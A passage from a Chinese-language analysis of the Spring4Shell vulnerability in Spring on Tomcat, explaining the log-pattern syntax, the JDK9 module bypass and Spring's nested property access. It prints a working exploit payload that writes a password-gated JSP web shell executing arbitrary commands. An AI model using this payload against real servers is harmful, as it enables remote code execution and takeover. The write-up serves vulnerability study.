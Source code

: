 `%{}i`在payload中有这个格式，查阅[tomcat相关资料](https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html)可以发现这里的`%{}i`是以 [Apache HTTP 服务器](https://httpd.apache.org/)日志配置语法为模型，支持写入传入或传出标头，Cookie，会话或请求属性以及特殊时间戳格式的信息。

![image-20220404201252535](https://cdn.jsdelivr.net/gh/SummerSec/Images/2022/03/52u1252ec52u1252ec.png)

这里也就解释了请求包中有特殊的几个header，以及其作用。我们现在可以将payload进行转化一下，也就等同于下面了这段payload。

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=<% if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %>//
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```



---

#### 知识点—JDK module模块

JDK9引入了一个新的特性叫做JPMS（Java Platform Module System），也可以叫做Project Jigsaw。模块化的本质就是将一个大型的项目拆分成为一个一个的模块，每个模块都是独立的单元，并且不同的模块之间可以互相引用和调用。

引入module之后，原本被修复的漏洞就使用module特性进行绕过了。

![image-20220404202049235](https://cdn.jsdelivr.net/gh/SummerSec/Images/2022/03/49u2049ec49u2049ec.png)



---

#### 知识点—AbstractNestablePropertyAccessor嵌套结构

为了理解payload为什么会有这么长`class.module.classLoader.resources.context.parent.pipeline.first.suffix`，这里得理解**AbstractNestablePropertyAccessor**的嵌套结构。为了帮助读者更好理解嵌套结构，笔者写了一段代码作为演示。

```java
public class School {
    String name;
    Student student;
   // TODO 添加setter和getter方法
    public static class Student {
        String name;
        Age age;
          // TODO 添加setter和getter方法
    }
    public static class Age {
        int age;
           // TODO 添加setter和getter方法
    }
// 为了代码量变少点，这里删除setter和getter方法，如果使用自行添加。
}
```
